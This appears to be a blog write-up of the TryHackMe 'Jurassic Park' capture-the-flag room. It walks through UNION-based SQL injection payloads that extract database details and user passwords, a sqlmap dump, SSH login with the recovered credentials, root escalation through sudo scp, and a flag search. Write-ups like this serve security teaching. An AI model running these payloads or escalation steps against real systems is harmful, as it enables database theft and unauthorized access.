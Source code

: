 ```yaml
---
date: 2025-01-09
categories: [CTF, THM]
title: "THM - Jurassic Park"
tags: ['nmap', 'privilege escalation', 'python', 'rce', 'sqli']

description: "Jurassic Park - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - Jurassic Park

NMAP

![image1](../resources/0d8486104815498dbb69eb0d08f9f0ce.png)

Website  `http://10.10.204.254/shop.php`

![image2](../resources/45ff848e4e2144b08d81a73bf66b9f3a.png)

- Clicking on one gives the following URL:

`http://10.10.204.254/item.php?id=3`

- If you remove the ?id=3 it results in:

![image3](../resources/f143690100104fe89cef2b27c46b7d6a.png)

- So we know it's MySQL

- Attempting to break it:

`http://10.10.204.254/item.php?id=3'`

or using Union

`http://10.10.204.254/item.php?id=3 UNION SELECT 1 --`


![image4](../resources/73d44746390b456287aab5787447fd81.png)


![image5](../resources/1ad2d0b6688546db8b2fe5c0735fd687.png)

- I randomly changed the id=100  `http://10.10.204.254/item.php?id=100`


![image6](../resources/912e630cebc14b458a3866468a8818e7.png)

Compared to (normal request ie. id=1):


![image7](../resources/31a7e397bc2d46e4a6cfd4c76ac26ece.png)

- Fuzzing the id field ?id=5

`http://10.10.204.254/item.php?id=5`


![image8](../resources/26983266b6fa45548a59b591a4548c36.png)

`http://10.10.204.254/item.php?id=5 union select 1`


![image9](../resources/b8c49afcc66540ed87671ed2043f9e6a.png)

```bash
union select 1,2,3,4,5

```

![image10](../resources/d7a3af7b686c4cb7878bd5940a5c5ca5.png)

- 2 and 4 are being reflected so:
  
```bash
union select 1,database(),3,version(),5

```

![image11](../resources/a2527e647a984555a29acdf0855d8e6c.png)


![image12](../resources/09bc127294704ff9b5b1dc4fad73f19e.png)

- Fetch the users table from the database

```bash
?id=1 union select 1,2,3,group_concat(column_name),5 from information_schema.columns where table_schema = database() and table_name = "users"

```

![image13](../resources/4f29f6b27b164a3d88c4625aff32b250.png)

- Get column passwords from the table

```bash
?id=1 union select 1,2,3,password,5 from users

```

![image14](../resources/bcb29cdb94da432a9f681737285eba68.png)

- But it dared me to use SQLMap so...

- Open Burp and capture the request. Save the request to a file (burp)


![image15](../resources/e203c5678a324f6f9d0ff7cfaf21b647.png)

- Run SQLMap:

```bash
sqlmap -r burp --batch

```
- Found the following injection points:

![image16](../resources/b522cbfca79e43ff8d559b8bf7b8c3be.png)

- Or just dump the database (more noisy):

```bash
sqlmap -r burp --batch --dump

```

![image17](../resources/623dc3a0492240c188eba816bb16c36a.png)


![image18](../resources/e3e7e9b6bd3444ba8b48bfb6ef2a53ae.png)

**Dennis : ih8dinos**

- SSH with the credentials:
  
```bash
ssh dennis@10.10.204.254

```
- Enumeration:

```bash
sudo -l

```

![image19](../resources/3de621fb681d4d3bbde25c06b18bd1ed.png)

- We can run scp as sudo

- GTFOBins


![image20](../resources/8f9b2b08eeb1490eb1286d51671eddf9.png)


![image21](../resources/b635569cb6d54129be10089ed47bba69.png)

- Got Root

![image22](../resources/1b6e1e41bc804d6d9db55a4f46f4e11e.png)

- Stabilise:
  
```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image23](../resources/0196f74cfb104313b16a28f7840ebe7f.png)

- Search for flags:
  
```bash
find / -name "flag\*" 2>/dev/null

```

![image24](../resources/b138f792a58e488283c75ffb24c7258c.png)


![image25](../resources/da975e6f85094c7493e8d327b1d95aa9.png)

- Found flag3 in:
/home/dennis/.bash_history

